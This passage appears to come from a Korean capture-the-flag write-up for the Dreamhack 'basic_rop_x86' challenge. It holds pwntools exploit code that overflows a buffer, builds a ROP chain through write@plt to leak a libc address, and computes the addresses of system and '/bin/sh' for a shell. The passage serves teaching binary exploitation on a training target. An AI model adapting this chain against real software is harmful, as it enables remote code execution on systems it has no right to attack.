 ```python
payload += p32(0x40)
payload += p32(main)

p.send(payload)
p.recvuntil(b'A'*0x40)

read_library = u32(p.recvn(4)) # 출력된 read의 라이브러리상 주소 저장
library_base = read_library - library.symbols['read']
system_library = library_base + library.symbols['system']
```

write_plt가 실행되면 pop pop pop ret이 실행되며 매개변수 1,read_got,0x40을 넣어 write_plt를 실행한다.

따라서 read_got에 있는 주소값이 출력이 되고 이를 recvn(4)로 4바이트만큼 받아서 u32로 저장하여 system_library 의 주소를 구한다.

이제 system_library의 주소를 구하였으므로 “/bin/sh” 문자열의 라이브러리에서의 오프셋도 구해보면 

```solidity
┌──(root💀kali)-[~/바탕화면/basic_rop_86]
└─# strings -tx libc.so.6 | grep "/bin/sh"
 15902b /bin/sh
```

15902b이므로 이를 library_base에 더하면 “/bin/sh”의 위치가 나온다.

```python
from pwn import *

host="host3.dreamhack.games"
port=20485
p=remote(host,port)
#p=process('./basic_rop_x86')

e=ELF('./basic_rop_x86')
library = ELF('./libc.so.6') # 라이브러리 불러오기
#library = e.libc

write_plt = e.plt['write']
read_plt = e.plt['read']
read_got = e.got['read']
main= e.symbols['main']

pppr = 0x08048689  # pop pop pop ret gadget
pr = 0x080483d9 # pop ret gadget
payload = b'A'*0x40 + b'B' *0x8

#write(1,read_got,0x40)
payload += p32(write_plt)
payload += p32(pppr)
payload += p32(1)
payload += p32(read_got)
payload += p32(0x40)
payload += p32(main)

p.send(payload)
p.recvuntil(b'A'*0x40)

read_library = u32(p.recvn(4)) # 출력된 read의 라이브러리상 주소 저장
library_base = read_library - library.symbols['read']
system_library = library_base + library.symbols['system']

bin_sh_offset= 0x15902b
bin_sh= library_base + bin_sh_offset
print("system:",hex(system_library))
print("bin_sh:",hex(bin_sh))

```